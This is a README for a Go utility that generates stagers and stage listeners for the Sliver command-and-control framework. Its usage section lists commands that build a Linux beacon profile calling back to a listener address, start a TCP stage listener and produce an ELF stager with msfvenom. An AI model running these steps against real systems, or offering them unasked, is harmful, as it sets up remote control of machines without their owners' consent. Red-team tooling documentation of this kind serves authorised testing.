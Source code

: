 # Sliver Stage Helper

A utility tool that assists with the creation and management of stagers for the [Sliver](https://github.com/BishopFox/sliver) Command & Control (C2) framework.

## Overview

Sliver Stage Helper provides functionality to:

- Generate stagers for different operating systems and architectures (current is linux/Windows x64)
- Start sliver stage listener (current: is TCP)

## Features

a solution for https://github.com/BishopFox/sliver/issues/1734

## Usage

To use the Sliver Stage Helper library in your Go project:

```bash
go install github.com/Esonhugh/sliver-stage-helper/cmd/sliverStager@latest
```


1. (sliver) profiles new beacon --mtls 10.0.0.66:6789  -o linux --arch amd64 linux64_profile
2. (sliver) mtls -l 6789
3. export SLIVER_CLIENT_CONFIG=~/.sliver-client/configs/op.json
2. sliverStager startListen -p linux64_profile -l tcp://10.0.0.66:4444
3. sliverStager stagerOne -l tcp://10.0.0.66:4444 -f elf -o 1.elf 

## Requirements

- Go 1.23.5 or higher
- Sliver C2 Framework (for server operations) and an operator config
- msfvenom in PATH
